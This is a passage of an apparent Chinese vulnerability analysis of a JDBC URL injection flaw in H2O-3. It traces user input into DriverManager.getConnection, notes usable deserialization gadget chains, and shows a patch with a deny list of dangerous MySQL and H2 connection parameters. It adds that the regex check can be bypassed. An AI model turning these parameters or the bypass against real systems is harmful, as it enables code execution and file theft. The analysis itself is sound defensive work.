  
  
  
  
getConnectionSafe() 调用 DriverManager.getConnection()  
  
DriverManager.getConnection 直接把用户输入的url、username、password传给DriverManager  
  
‍  
  
java.sql.DriverManager`#getConnection`  
(java.lang.String, java.lang.String, java.lang.String)  
  
  
  
  
  
  
‍  
  
H2O-3  自身依赖中包含 org.apache.commons.beanutils 和 com.fasterxml.jackson.databind  包，这意味着 Commons-Beanutils 和 Jackson-databind 两条反序列化 gadget 链都可以被利用  
  
‍  
  
‍  
## 修复方法  
  
在 water.jdbc.SQLManager#importSqlTable  
和 water.jdbc.SQLManager#getConnectionSafe  
 都添加validateJdbcUrl  
 对传入的 connection_url  
 进行检测  
  
  
  
  
  
  
  
```
private static final Pattern JDBC_PARAMETERS_REGEX_PATTERN = Pattern.compile("(?i)[?;&]([a-z]+)=");
```  
```
private static final List<String> DEFAULT_JDBC_DISALLOWED_PARAMETERS = (List)Stream.of(// MySQL相关危险参数"autoDeserialize",            // 允许反序列化"queryInterceptors",          // 8.x版本拦截器"allowLoadLocalInfile",       // 允许读取本地文件"allowMultiQueries",          // 允许多语句执行"allowLoadLocalInfileInPath", "allowUrlInLocalInfile", "allowPublicKeyRetrieval", // H2数据库相关危险参数"init",                 // 初始化时执行SQL/脚本"script",              // 执行脚本 "shutdown"             // 关闭数据库).map(String::toLowerCase).collect(Collectors.toList());
```  
  
water.jdbc.SQLManager`#validateJdbcUrl`  
  
  
  
  
  
  
首先会检测 URL 是否为空，是否以  jdbc: 开头， 然后是正则匹配 `(?i)[?;&]([a-z]+)=`  
 会匹配出 URL 中所有 ?xxx=  
 或者 ;xxx=  
 或者 &xxx=  
 格式的参数，遍历所有匹配到的参数，提取参数名并检测参数是否在黑名单中。  
  
正则匹配的方式存在缺陷所以存在绕过的可能性。  
  
[](https://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&scene=21#wechat_redirect)  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
